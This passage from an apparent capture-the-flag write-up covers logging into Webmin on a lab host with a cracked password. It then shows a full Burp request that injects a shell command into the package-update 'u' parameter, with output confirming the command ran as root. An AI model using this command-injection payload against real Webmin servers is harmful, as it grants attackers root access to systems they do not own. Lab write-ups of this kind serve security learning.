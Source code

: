 ## Login into Webmin as Matt

The cracked passphrase above is actually a password we can use as username Matt to login to the webmin service running on port 10000.

https://10.10.10.160:10000/sysinfo.cgi?xnavigation=1

He is our user -- now need to figure out how to get a shell as him.  

## RCE in wedmin update packages functionaly.  

Googling quickly yeilds results for webmin 1.910, which is our version.  After logging into the service as Matt, I located the package update area of the app.  I captured a request to update one of the packages in burp:

```
POST /package-updates/update.cgi HTTP/1.1
Host: 10.10.10.160:10000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.160:10000/package-updates/update.cgi?xnavigation=1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Progressive-URL: https://10.10.10.160:10000/package-updates/update.cgi
X-Requested-From: package-updates
X-Requested-From-Tab: webmin
X-Requested-With: XMLHttpRequest
Content-Length: 57
Connection: close
Cookie: redirect=1; testing=1; sid=59481a64855a94b7e8a615aaa1304c12

u=acl%2Fapt&u=%20%7C%20id&ok_top=Update+Selected+Packages
```
I placed "id" in the middle of the body section of the request to see if I had RCE.  I did:

```
<div class="panel-body">
Building complete list of packages ..<p>
Now updating <tt>acl  | id</tt> ..<br>
<ul>
<b>Installing package(s) with command <tt>apt-get -y  install acl  | id</tt> ..</b><p>
<pre>uid&#61;0(root) gid&#61;0(root) groups&#61;0(root)
</pre>
<b>.. install complete.</b><p>
</ul><br>
No packages were installed. Check the messages above for the cause of the error.<p>
```

## privesc to Matt

it took me way too long to try it, but the same password we used to login into Webmin as Matt is his system user password.  Quick detail - his name is capitalized in the /home directory and that matters:
